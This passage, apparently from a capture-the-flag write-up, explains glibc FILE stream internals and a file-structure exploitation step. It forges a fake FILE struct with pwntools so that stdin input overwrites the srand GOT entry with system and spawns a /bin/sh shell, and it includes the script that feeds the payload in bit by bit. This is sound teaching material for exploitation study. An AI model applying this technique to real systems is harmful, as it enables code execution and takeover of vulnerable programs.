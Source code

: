 We can finally see where we read stuff from the file to memory - `_IO_file_read`
is called, reading data from the fd into `_IO_buf_base`.

If `_IO_buf_base` was NULL or `_IO_file_underflow` didn't end on EOF, the
function wraps up by reading data from the file to our actual original address.

```c
count = want;
if (fp->_IO_buf_base)
{
    size_t block_size = fp->_IO_buf_end - fp->_IO_buf_base;
    if (block_size >= 128)
        count -= want % block_size;
}

// char *s = data; (aka user buffer)
count = _IO_SYSREAD (fp, s, count);
```

---

Now, we know how to control our write - if `_IO_read_end - _IO_read_ptr` is
equal to or less than 0, and `_IO_buf_base` is set, then the input will be read
into `_IO_buf_base`, and subsequently into user buffer as well. We can also
control the actual fd being read from by setting `file->fd` - let's set it to 0
to read from stdin. Then, we want to read our input into GOT, overwriting the
`srand` function pointer. (since `seed` will be overwritten by our payload, and
it's passed into `srand` in the `reseed` function, we can store our pointer to
`/bin/sh` in `seed` - but this means that we need to shift the start of our
write up by 8 bytes, so that `system` pointer still goes into `srand`)

Let's forge our fake file now!

```python
payload = flat(
    0xdeadbeefcafebabe, # game_history
    0x68732f6e69622f2f, # seed
    0x4040a0, # seed_generator
    {
        0x0: 0xfbad2488,
        0x38: exe.got.srand - 0x8, # buf_base
        0x40: exe.got.srand + 0x8, # buf_end
        0x90: 0, # fd
    },
    0x68732f6e69622f2f,
    endianness="big",
    filler=b"\x00",
)

hexstr = payload.hex()
binstr = "{:08b}".format(int(hexstr, 16))
binstr = [binstr[i:i+64][::-1] for i in range(0, len(binstr), 64)]

print(binstr)

counter = 0
for num in binstr:
    for i in num:
        counter += 1
        if counter % 100 == 0:
            print(counter)
        if i == "0":
            fight(False)
        else:
            fight(True)

# trigger using our fake file
```